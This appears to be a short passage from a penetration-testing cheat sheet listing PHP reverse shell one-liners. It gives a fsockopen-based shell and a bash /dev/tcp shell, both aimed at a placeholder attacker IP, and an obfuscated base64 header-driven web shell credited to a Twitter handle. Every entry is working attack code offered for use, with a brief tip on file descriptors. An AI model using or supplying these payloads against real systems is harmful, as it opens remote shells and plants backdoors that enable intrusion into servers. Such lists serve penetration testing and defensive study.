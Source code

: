 A useful PHP reverse shell:
```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

Another PHP reverse shell (that was submitted via Twitter):
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>
```
Base64 encrypted by @0xInfection:
```
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```
